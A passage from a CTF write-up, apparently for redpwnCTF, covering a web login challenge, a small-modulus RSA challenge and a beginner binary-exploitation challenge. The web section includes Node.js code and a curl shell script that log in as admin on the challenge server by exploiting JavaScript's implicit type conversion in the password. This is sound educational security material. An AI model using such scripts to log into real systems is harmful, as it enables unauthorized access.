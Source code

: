 Because the 'random uuid' is being fed into `btoa()` it becomes a base64
encoded string. However, `btoa()` also expects a string as input. Because every
object in JS has a `.toString()` method, when you pass it into a function
expecting another type, JS will happily convert it for you without warning.

This means that the admin's password will always be a base64-encoded version of
`crypto.randomUUID`'s source code. We can get that base64-encoded source code
by running the following in a NodeJS REPL:

```js
// import file system and crypto modules
var writeFileSync = require('fs').writeFileSync;
var crypto = require('crypto');

// write source to file
writeFileSync('./randomUUID.js', btoa(crypto.randomUUID.toString()), 'utf-8');
```

I made a simple shell script that calls cURL with the base64-encoded
parameters, and decodes the url-encoded flag afterwards:

```sh
#!/bin/sh

# https://stackoverflow.com/questions/6250698/how-to-decode-url-encoded-string-in-shell
function urldecode() { : "${*//+/ }"; echo -e "${_//%/\\x}"; }

urldecode $(curl -sX POST \
	-d "username=$(printf 'admin' | base64)" \
	-d "password=$(cat ./randomUUID.js)" \
	https://secure.mc.ax/login)
```

### crypto/baby

> I want to do an RSA!

This challenge is breaking RSA. It only works because the `n` parameter is
really small.

Googling for 'rsa decrypt n e c' yields
[this](https://stackoverflow.com/questions/49878381/rsa-decryption-using-only-n-e-and-c)
stackoverflow result, which links to
[dcode.fr](https://www.dcode.fr/rsa-cipher). The only thing left to do is
calculate `p` and `q`, which can be done using [wolfram
alpha](https://wolframalpha.com/).

### pwn/beginner-generic-pwn-number-0

> rob keeps making me write beginner pwn! i'll show him...
>
> `nc mc.ax 31199`

This was my first interaction with `gdb`. It was.. painful. After begging for
help in the redpwnCTF discord server about another waaaay harder challenge, an
organizer named asphyxia pointed me towards [gef](https://github.com/hugsy/gef)
which single-handedly saved my sanity during the binary exploitation
challenges.

